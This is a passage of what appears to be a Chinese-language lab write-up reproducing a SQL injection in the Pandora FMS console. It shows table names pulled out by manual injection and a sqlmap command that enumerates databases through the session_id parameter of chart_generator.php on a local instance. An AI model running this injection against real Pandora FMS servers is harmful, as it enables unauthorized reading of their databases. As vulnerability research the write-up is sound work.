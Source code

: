 ![image-20250403175151970](./Pandora/image-20250403175151970.png)

```
_cache,tservice_element,tuser_

拼接第一次注入的内容
tvisual_console_elements_cache,tservice_element,tuser_

反复往后读即可
```

### sqlmap

#### 数据库名

```shell
sqlmap -u "http://localhost:9002/pandora_console/include/chart_generator.php?session_id=1" --batch --dbs 
```

![image-20250403175405485](./Pandora/image-20250403175405485.png)
